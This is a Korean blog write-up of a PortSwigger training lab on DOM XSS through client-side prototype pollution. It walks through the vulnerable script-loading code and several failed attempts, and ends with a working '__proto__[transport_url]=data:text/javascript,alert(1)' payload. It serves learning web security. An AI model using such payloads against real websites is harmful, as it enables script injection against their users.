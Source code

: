 ```yaml
---
layout: post
title: "Burp Academy-Prototype Pollution 첫번째 문제:DOM XSS via client-side prototype pollution"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```


# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점에 대한 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution
- 프로토타입 폴루션 설명 주소: https://portswigger.net/web-security/prototype-pollutionwhat-is-prototype-pollution
- 난이도: PRACTITIONER (중간)


# 문제 분석

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global Object.prototype.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.
```

- 프로토타입 폴루션이 가능한 곳을 찾는다. 
- 페이로드를 만들어서 자바스크립트 alert 함수가 실행되도록 만든다. 
- 브라우저를 통해서 풀어도되고  `Dom Invader` 를 사용하면 더 쉬울 수도 있다. 




# 풀이
## 가능한 곳 찾기

![상품 검색](/images/burp-academy-prototype-pollution-1-2.png)

- 검색어를 입력하고 "Search" 버튼을 클릭하면 GET 요청이 발생하고 URL로 파라메터가 전달된다. 

```
GET /?search=aaaa HTTP/1.1
Host: 0a5300b3032c5f25c2643a44000000f1.web-security-academy.net
Cookie: session=BRR4p1oZFSX1e1MEJ8r7OkjZb4KVjCFB
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close

```

그리고 다음과 같이 평범해보이는 200 응답이 회신된다. 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 3209

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>DOM XSS via client-side prototype pollution</title>
    </head>
    <body>
(이하생략)
```

그리고 이 페이지를 크롬 디버거로 살펴보면 응답을 받으면 `searchLogger.js` 파일의 다음 자바스크립트가 실행되도록 되어 있다. 페이지의 `load` 이벤트에 반응하도록 되어 있어 페이지 로드가 완료되면 `searchLogger` 함수가 이어서 실행된다. 코드를 조금 분석해본다. 

- `searchLogger` 함수에서는 `deparam.js` 에 정의되어 있는 deparam 오브젝트를 생성하고 `config` 라는 변수에 저장해둔다. 
- `config` 변수에 `transport_url` 라는 속성(property)이 있다면 동적으로 script 태그를 만들고 이 태그의 `src` 속성을 `transport_url` 의 값으로 설정한다. 
- 아마도 `transport_url` 을 XSS가 가능한 페이로드로 지정하면 문제가 풀리지 않을까 한다. 

```javascript 
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```
그리고 `deparam.js` 의 코드는 대략 다음과 같다. 실제로 프로토타입 폴루션 취약점이 있는 부분이 코드 같다. URL에 지정된 파라메터의 값을 자바스크립트의 오브젝트에 무조건적으로 설정해주는 부분같다. (`__proto__` 와 같은 위험한 key가 사용되고 있는지를 체크해주는 부분이 없다.  )

![deparam.js](/images/burp-academy-prototype-pollution-1-1.png)


## 1차 시도
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 를 보면, `<script src="javascript:alert(1)">` 페이로드가 있다. 이 것을 사용해보자. 


`?search=eeess&__proto__[transport_url]=javascript:alert(1)` 페이로드를 지정하면 script.src 의 값이 alert(1) 테스트해보았다. 

결과는 실패. alert 창이 나타나지 않았다. 흠...

크롬 디버거로 브레이크포인트를 찍어서 값을 확인해본다. params 오브젝트의 프로토타입의 속성 transport_url에 값이 지정된 것을 확인했다. 이 것으로 일단 프로토타입 폴루션자체를 성공한 것을 알 수 있다. __proto__ 키를 이용해서 오브젝트의 특정 키에 값을 주입했다. 

![프로톹타입 폴루션 확인](/images/burp-academy-prototype-pollution-1-3.png)

그런데 최종결과를 보면 다음과 같은 에러를 확인할 수 있었다. 

![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-4.png)

## 2차 시도 
페이로드에서 `javscript` 를 없애고 다음과 같이 만들었다. `?search=eeess&__proto__[transport_url]=alert(1)` 실행해보니 이번에는 404 응답 에러가 발생했다. 

그리고 이 떄 Burp Proxy 이력을 보니 다음과 같은 통신이 발생한 것을 확인했다. `<script src="alert(1)">` 이 삽입되니, `GET /alert(1)` 요청이 실행된 것이다. src에 바로 alert 코드를 쓰는 것은 답이 아닌 것 같다. 다른 페이로드를 찾아본다. 

```
GET /alert(1) HTTP/1.1
Host: 0a1800e104c74374c2bf71be00a4002b.web-security-academy.net
Cookie: session=9YMbSxCjJHulZ7ZPfUBnGvoiWivMSkpj
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a1800e104c74374c2bf71be00a4002b.web-security-academy.net/?search=eeess&__proto__[transport_url]=alert(1)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close
```

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 11

"Not Found"
```

## 3차 시도 
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 에서 `<script src="data:text/javascript,alert(1)"></script>` 페이로드를 발견했다. 왠지 이 것을 쓰면 HTTP 통신이 발생하지 않고 script가 실행될 것 같은 예감이 든다. 테스트해본다. 

삽입된 페이로드를 브레이크 포인트로 확인해본다. `data:text/javascript,alert(1)` 이 삽입된 것을 확인했다. 브레이크 포인트를 중지하고 계속 진행시킨다. 

![삽입된 페이로드 확인](/images/burp-academy-prototype-pollution-1-5.png)

자바스크립트 실행에 성공했다! 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-6.png)

OK버튼을 누르면 축하한다는 메세지가 나온다. 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-7.png)